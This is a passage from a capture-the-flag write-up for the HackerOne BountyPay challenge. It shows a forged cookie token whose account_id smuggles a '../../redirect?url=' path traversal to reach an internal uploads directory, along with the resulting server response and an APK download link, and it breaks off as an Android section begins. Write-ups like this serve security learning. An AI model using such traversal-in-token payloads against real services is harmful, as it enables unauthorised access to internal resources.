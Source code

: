 ```html
   </body>
</html>
```

upon changing the cookie: 
```
GET /statements?month=11&year=2016 HTTP/1.1
Host: app.bountypay.h1ctf.com
Connection: close
Accept: */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36
X-Requested-With: XMLHttpRequest
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://app.bountypay.h1ctf.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: token=eyJhY2NvdW50X2lkIjoiLi4vLi4vcmVkaXJlY3Q/dXJsPWh0dHBzOlwvXC9zb2Z0d2FyZS5ib3VudHlwYXkuaDFjdGYuY29tXC91cGxvYWRzIyIsImhhc2giOiJkZTIzNWJmZmQyM2RmNjk5NWFkNGUwOTMwYmFhYzFhMiJ9

6
```

we get another interesting response:
```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 02 Jun 2020 09:47:20 GMT
Content-Type: application/json
Connection: close
Content-Length: 489

{"url":"https:\/\/api.bountypay.h1ctf.com\/api\/accounts\/..\/..\/redirect?url=https:\/\/software.bountypay.h1ctf.com\/uploads#\/statements?month=11&year=2016","data":"<html>\n<head><title>Index of \/uploads\/<\/title><\/head>\n<body bgcolor=\"white\">\n<h1>Index of \/uploads\/<\/h1><hr><pre><a href=\"..\/\">..\/<\/a>\n<a href=\"\/uploads\/BountyPay.apk\">BountyPay.apk<\/a>                                        20-Apr-2020 11:26              4043701\n<\/pre><hr><\/body>\n<\/html>\n"}
```

we can just download the apk via the site

https://software.bountypay.h1ctf.com/uploads/BountyPay.apk

TLDR;
{F853143}

# Tackling my JAVA illitracy | Android side quest:  

{F853125}

when I opened the app and entered by username as well as my twitter handle and clicked on the bounty pay logo it asked me to use intents and parameters, so I looked at the android manifest and looked at the intents, tried reading the code until things worked out, and here is the solution 
